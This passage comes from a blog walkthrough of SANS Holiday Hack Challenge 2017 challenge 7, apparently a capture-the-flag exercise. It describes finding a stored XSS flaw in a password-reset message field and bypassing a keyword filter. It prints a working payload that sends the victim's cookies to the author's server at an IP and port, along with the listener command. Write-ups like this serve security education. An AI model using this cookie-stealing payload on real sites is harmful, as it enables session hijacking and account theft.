 On top of this I also noted down the three endpoints I found while OWASP ZAP was running as my proxy

* http://edb.northpolechristmastown.com/index.html
* http://edb.northpolechristmastown.com/index.html/service
* http://edb.northpolechristmastown.com/index.html/login

The regular expressions for the user account field turned out to just be the following:

```bash
Username (first.last): alabaster.snowball
```

Unfortunately I still wasn't able to accomplish much as it would seem the password for this portal is different from Alabaster's usual one.

At the bottom of the page there was a link to reset a password for a known user account. I attempted to submit for a password reset by entering Jessica Claus's detail's and was told that the request was successful.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-password-reset.jpg" />

The URL for the request was visable at the top of the page as http://edb.northpolechristmastown.com/reset_request?ticket=GBIUS-46XD5-EWJEL-BWT2B with the ticket number matching the one on the screen obviously.

I viewed the sent and received requests in `OWASP ZAP` and noted that the message field in the form was being sent along with my request.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-service-request.jpg" />

It was clear that XSS injection would be possible, as when I opened the reset_request link if I had javascript within the message field, or even HTML it would be executed and displayed. The idea seems to be that if you have to build an XSS attack that will steal the service technicians cookies by appending them to a GET request and hitting a server you own.

Issues arose with this idea pretty quickly however, as it was clear that some javascript keywords were being validated and stripped out of the message field. For example here's what a simple `javascript.alert()` query looked like when the page was rendered.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-input-validation.jpg" />

After a number of tweaks while referencing the [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) I came up with a method that I could get it working. From the web console I executed the two commands below

```js
let foo = (m) => $.post('/service', {uid:'santa.claus', email:'santa.claus@northpolechristmastown.com', message: m});

foo(`<img src="x" onerror="this.src='http://203.59.106.231:9002/?cookie=' + document.cookie">`);
```

I also had to make sure that I had a web server up that could serve a blank site that the XSS could hit from the victims web browser.

```
$ python -m SimpleHTTPServer 9002
Serving HTTP on 0.0.0.0 port 9002 ...
```
